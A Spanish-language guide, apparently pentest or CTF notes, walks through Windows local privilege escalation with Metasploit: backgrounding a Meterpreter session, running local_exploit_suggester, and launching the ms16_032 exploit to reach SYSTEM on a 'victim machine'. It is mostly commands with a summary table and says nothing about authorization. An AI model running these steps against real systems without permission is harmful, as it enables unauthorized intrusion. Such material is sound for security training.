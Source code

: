 # Escalada de privilegios en Windows explotando el kernel con Metasploit

---

##  Tener una sesión de Meterpreter

Primero, consigue una sesión de `meterpreter` en la máquina víctima (por ejemplo, tras un exploit SMB o RDP exitoso).  
Comprueba que estás como usuario limitado:
```
whoami
```

---

##  Mandar la sesión de Meterpreter al background

Para poder lanzar módulos de reconocimiento desde Metasploit, pon la sesión en segundo plano:
```
background
```

Esto devolverá el prompt de `msfconsole` y te mostrará el número de sesión (ejemplo: `[*] Backgrounding session 1...`).

---

##  Buscar y lanzar el sugeridor de exploits locales

En `msfconsole`, busca el módulo `local_exploit_suggester`:
```
search local_exploit_suggester
```

Debería mostrar algo como:
```
post/multi/recon/local_exploit_suggester
```

Usa el módulo:
```
use post/multi/recon/local_exploit_suggester
```

Establece la sesión que acabas de mandar al background:
```
set SESSION <NÚMERO_DE_SESIÓN>
```

Ejecuta el módulo:
```
run
```

---

##  Elegir uno de los exploits sugeridos

El módulo analizará el sistema y listará posibles exploits locales disponibles.  
Por ejemplo, la salida podría sugerir:
```
[*] [Recommended] exploit/windows/local/ms16_032_secondary_logon_handle_privesc
[*] exploit/windows/local/ms10_092_trusted_publisher
```

Escoge uno de los recomendados compatible con el sistema.

---

##  Ejecutar el exploit sugerido

Cárgalo en `msfconsole`:
```
use exploit/windows/local/ms16_032_secondary_logon_handle_privesc
```

Configura la sesión que tenías:
```
set SESSION <NÚMERO_DE_SESIÓN>
```

Comprueba las opciones:
```
options
```

Ejecuta el exploit:
```
exploit
```

Si todo va bien, la sesión debería elevarse a SYSTEM.

---

## 📋 Resumen de pasos

| Paso                                      | Comando                                     |
|------------------------------------------|--------------------------------------------|
| Ver usuario actual                      | `whoami`                                   |
| Mandar sesión al background             | `background`                              |
| Buscar sugeridor de exploits locales   | `search local_exploit_suggester`         |
| Usar el módulo sugeridor                | `use post/multi/recon/local_exploit_suggester` |
| Establecer la sesión                    | `set SESSION <número>`                   |
| Ejecutar sugeridor                      | `run`                                     |
| Elegir uno de los exploits recomendados | `use exploit/windows/local/<exploit>`   |
| Ejecutar exploit                        | `exploit`                                 |

